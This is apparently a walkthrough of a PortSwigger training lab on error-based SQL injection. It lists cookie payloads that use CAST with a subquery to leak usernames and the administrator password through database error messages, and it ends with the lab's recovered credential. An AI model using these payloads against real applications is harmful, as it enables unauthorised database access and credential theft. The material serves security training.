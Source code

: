 ## Welcome, my friend. Today we will start the [14. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/1c73cc49-a23b-454e-b6c3-ba500271d0d2)

### We discover this page and find category paramater.

![image](https://github.com/user-attachments/assets/6208ecd8-2fa1-4875-8956-29a18ff32c31)

![image](https://github.com/user-attachments/assets/edfd0c18-7e91-4e14-a32d-2b7aff1d2adf)

### We notice ```Cookie: TrackingId=ebVJ3SqBjZlzaJ5h;``` this param is vulnerable and inject following payload:

```
Cookie: TrackingId=SuNnJlVwVNjaigCn';
```

![image](https://github.com/user-attachments/assets/c007269c-419e-4669-a4c4-7b67fcc5fe3d)

### ```error message``` printed.

### Try  following payload:

```
Cookie: TrackingId=SuNnJlVwVNjaigCn'--;
```

![image](https://github.com/user-attachments/assets/a165afd2-fe97-430c-a72b-6384ec03dda4)

### ```200 states``` printed so This is ```true```.

#### We know that there is one table is ```users``` and there are two columns ```username```,```password``` and there username is ```administrator``` and require his password.

### Ok We change value from string to integer:

```
Cookie: TrackingId=c4tf65BJedISgLpl' AND 1=CAST((SELECT 1) AS int)--;
```

![image](https://github.com/user-attachments/assets/df60e748-cd42-422f-afd1-c7848328078f)

### error because ```AND``` must be boolean.


### Ok we will change payload and add  ```=``` to know type of database:


```
Cookie: TrackingId=c4tf65BJedISgLpl' AND CAST((SELECT 1) AS int)--;
```

![image](https://github.com/user-attachments/assets/138585ce-a6d8-423a-b082-6f9aa489029f)

### 200 status 


### retrieve data from username in users table
```
Cookie: TrackingId=c4tf65BJedISgLpl' AND 1=CAST((SELECT username FROM users) AS int)--;
```

![image](https://github.com/user-attachments/assets/7551ef2a-39a5-485f-8e65-905590c93c0e)

### Let's go delete TrackingId value and try again:

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--;
```

![image](https://github.com/user-attachments/assets/a8d06f7d-b819-4909-89c7-d051ff72415f)

### Now add ```Limit 1``` such as:

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--;
```

![image](https://github.com/user-attachments/assets/6c202ef7-330b-4191-ab4c-78dbeec84e34)

### Ok Now we discover username let's go discover password:

```
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--;
```

![image](https://github.com/user-attachments/assets/f5c6e5da-df27-4f02-9c02-689261abd104)

#### this is password ```administrator:rz8u2e6300his0jlg72z```

![image](https://github.com/user-attachments/assets/5143320d-83f7-4bd0-a0f5-795b6b6ec06f)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
